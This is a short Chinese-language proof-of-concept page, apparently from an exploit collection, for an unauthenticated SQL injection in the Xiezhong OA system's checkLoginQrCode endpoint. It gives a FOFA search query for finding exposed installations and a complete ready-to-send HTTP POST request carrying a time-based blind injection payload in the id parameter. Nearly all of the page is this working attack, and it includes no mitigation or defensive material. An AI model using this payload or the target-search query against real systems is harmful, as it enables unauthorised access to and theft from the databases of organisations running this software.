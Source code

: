# 协众OA系统接口checkLoginQrCode存在SQL注入漏洞复现

协众OA checkLoginQrCode 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息。

## fofa
```javascript
app="协众软件-协众OA"
```

## poc
```javascript
POST /index.php?app=main&func=common&action=commonJob&act=checkLoginQrCode HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Priority: u=0, i
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0

id=(select * from (select sleep(5))z)
```

![image-20241219150543058](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412191505120.png)